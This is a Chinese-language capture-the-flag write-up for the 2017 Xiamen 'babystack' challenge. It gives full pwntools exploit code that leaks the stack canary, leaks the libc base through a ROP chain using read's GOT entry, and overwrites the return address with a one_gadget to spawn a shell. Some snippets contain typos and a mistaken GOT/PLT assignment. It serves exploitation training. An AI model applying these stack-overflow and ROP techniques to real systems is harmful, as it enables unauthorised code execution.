




## 2017年 厦门邀请赛 - babystack

##### 查看保护机制：



#####定位漏洞



由上图可知，read函数可以读取0x100个字节，字符串s的位置为rbp-0x90h，所以这道题可以进行栈溢出。

#### 整体思路：

* 泄漏canary
* 修改返回地址，getshell

#### 1. 泄漏canary

这一部分我们需要知道3个知识点：

* read函数在读取限制长度的字符串内，也可以将`\n`读取进来
* puts函数遇到`0x00`时才会停止，`\n`不会停止
* canary为防止泄露，第一位已知为`\x00`

其实还需要知道 x64函数调用过程中栈的内容，这里不再详细描述。

##### 泄漏canary的思路就是：将存储在栈中的变量s填满，一直将canary最后一个字符`0x00`填上，在puts的时候，会一直输出到`0x00`结束，这样就可以得到顺序将canary输出。代码如下所示：

```
def getCanary():
    io.sendlineafter(">>","1")
    payload = cyclic(0x88)
    # 其实我们发送了0x89个字符，因为sendline会多发送一个回车，read也会将回车读入
    # s的内容是从低地址往高地址写，低位在低地址
    io.sendline(payload)

    io.sendlineafter(">>","2")
    io.recvuntil("\n")
    sleep(1)
    # 这是我们之前通过sendline输入的\n 读取的话也是从低地址向高地址读，接下来输出的就是canary了
    io.recvuntil("\n")
    
    canary = u64("0x00" + io.recv(7))
    log.debug("leak_canary -> 0x%x" % canary)
    return canary 
```

#### 2. 修改返回地址

这一部分的难点在于，将返回地址修改成什么，在这里我想填写one_gadget的方式。但是我们需要libc_base的地址。如何才能获得libc的地址呢。在这里学到了一个新方法。

思路是这样的：通过puts函数输出read函数got表中的值。这个过程通过构造rop来实现。然后减去read函数的偏移 就知道基地址是什么了。read函数的got放到puts函数的参数中，也就是rdi寄存器中 通过下面的指令寻找：

```
$ ROPgadget --binary babystack --only "pop|ret"
Gadgets information
============================================================
0x0000000000400a8c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400a8e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400a90 : pop r14 ; pop r15 ; ret
0x0000000000400a92 : pop r15 ; ret
0x0000000000400a8b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400a8f : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400778 : pop rbp ; ret
0x0000000000400a93 : pop rdi ; ret
0x0000000000400a91 : pop rsi ; pop r15 ; ret
0x0000000000400a8d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040067e : ret
0x0000000000400288 : ret 0x6c1f
0x0000000000400811 : ret 0x8b48

Unique gadgets found: 13
```

获取read函数got表的值代码如下所示：

```
def getBase(canary):
    read_got = elf.got['read']
    puts_plt = elf.plt['puts']
    read_got = elf.plt['read']

    start = 0x400908
    pop_rdi_ret = 0x0000000000400a93

    io.sendlineadter(">>","1")
    payload = cyclic(0x88) + p64(canary) * 2 + p64(pop_rdi_ret ) + p64(read_got) + p64(puts_plt) + p64(start)
    io.sendline(payload)
    # 为了触发
    io.sendlineafter(">>","3")

    sleep(1)
    read_leaked = u64(io.recv(6).ljust(8, '\x00'))
    log.debug("read_leaked -> 0x%x" % read_leaked)

    read_libc = libc.symbols["read"]
    libc_base = read_leaked - read_libc
    log.debug("leaked libcBase -> 0x%x" % libc_base)
    return libc_base

```
#### 注意：

`u64`将字符串转换成数字



但是必须是8个字符才行



所以我们需要在高位添加0x00

```
u64(t.recv(6).ljust(8, '\x00'))
```

这样就行。

ljust(8,'\x00')的效果如下所示：

```
>>> t.recv(6).ljust(8, '\x00')
'Hello,\x00\x00'
```
<mark>栈中 输入是由低向高 输出也是由低向高</mark>

#### 整个题的思路就是如下所示：

```
from pwn import *
import sys
from time import sleep
import pdb
context.log_level = 'debug'

io = process("./babystack")
elf = ELF("./babystack")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
exe_addr = 0x45216

def getCanary():
    io.sendlineafter(">> ", "1")
    payload = cyclic(0x88)
    #  debug()
    io.sendline(payload)
    io.sendlineafter(">> ", "2")
    sleep(1)
    io.recvuntil("\n")
    sleep(1)
    canary = u64("\x00" + io.recv(7))
    #  print hex(canary)
    log.debug("leaked canary -> 0x%x" % canary)
    return canary

def getBase(canary):
    read_got = elf.got["read"]
    read_plt = elf.plt["read"]
    puts_plt = elf.plt["puts"]
    #  start_plt = elf.symbols["start"]
    #  start_plt = 0x400720
    start_plt = 0x400908
    pop_rdi_ret = 0x0000000000400a93
    pop_rsi_r15_ret = 0x0000000000400a91
    io.sendlineafter(">> ", "1")
    #  log.info("------------------")
    payload = cyclic(0x88) + p64(canary) * 2 + p64(pop_rdi_ret) + p64(read_got) + p64(puts_plt) + p64(start_plt)
    #  print len(payload)
    io.sendline(payload)
    io.sendlineafter(">> ", "3")
    #  debug()
    #  log.info("------------------")
    sleep(1)
    read_leaked = u64(io.recv(6).ljust(8, '\x00'))
    log.debug("read_leaked -> 0x%x" % read_leaked)
    read_libc = libc.symbols["read"]
    libc_base = read_leaked - read_libc
    log.debug("leaked libcBase -> 0x%x" % libc_base)
    return libc_base

def getShell(canary, libcBase):
    io.sendlineafter(">> ", "1")
    exeAddr = libcBase + exe_addr
    payload = cyclic(0x88) + p64(canary) * 2 + p64(exeAddr)
    io.sendline(payload)
    #  debug()
    io.sendlineafter(">> ", "3")

    io.interactive()
    io.close()

if __name__ == "__main__":
    io = process("./babystack")
    elf = ELF("./babystack")
    libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
    exe_addr = 0x45216
    canary = getCanary()
    libcBase = getBase(canary)
    canary = getCanary()
    getShell(canary, libcBase)

```


